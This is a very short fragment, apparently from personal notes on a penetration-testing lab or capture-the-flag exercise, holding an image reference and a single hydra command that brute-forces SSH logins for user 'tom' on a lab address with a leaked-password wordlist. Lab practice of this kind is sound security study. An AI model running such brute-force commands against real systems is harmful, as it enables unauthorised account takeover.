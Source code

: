 - `hydra -l tom -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-60.txt 10.129.64.82 ssh -t 4 -I`
![[Pasted image 20240828160710.png]]